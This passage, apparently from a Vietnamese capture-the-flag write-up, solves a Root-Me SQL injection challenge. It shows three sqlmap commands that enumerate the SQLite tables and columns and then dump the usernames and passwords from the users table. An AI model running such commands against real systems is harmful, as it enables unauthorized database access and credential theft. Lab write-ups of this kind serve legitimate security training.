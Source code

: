Biết được param để exploit và DMBS ta có thể sử dụng 1 tool khá phổ biến để test lỗ hổng SQLi đó là sqlmap:

> Payload: sqlmap -u http://challenge01.root-me.org/web-serveur/ch10/ -dbms=SQLite --data='username=FUZZ&password=FUZZ' --tables --batch

![image](https://user-images.githubusercontent.com/104350480/218265712-8fc3ed97-b09f-466c-8ae5-0b3c42928379.png)


![image](https://user-images.githubusercontent.com/104350480/218265531-240b1e1a-53f8-4845-91e1-ba1e5aea9714.png)

Có được table là database là SQLite_masterdb và tablelaf users, tiếp tục extract tên và số cột:

> Payload: sqlmap --dbms=SQLite -D SQLite_masterdb -T users --columns --data='username=FUZZ&password=FUZZ' -u "challenge01.root-me.org/web-serveur/ch10/" --batch

![image](https://user-images.githubusercontent.com/104350480/218266871-0b8fc508-a7aa-43b8-aa90-379854202200.png)
 Đã có đủ hết mọi dữ kiện cần thiết, giờ thì dump hết ra là xong:
 
 > Payload: sqlmap.py --dbms=SQLite -D SQLite_masterdb -T users -C "username","password","Year" --dump --data='username=FUZZ&password=FUZZ' -u "challenge01.root-me.org/web-serveur/ch10/" --batch

![image](https://user-images.githubusercontent.com/104350480/218266929-7a48aca2-3ace-4244-9eb7-0a6d0feac4b8.png)







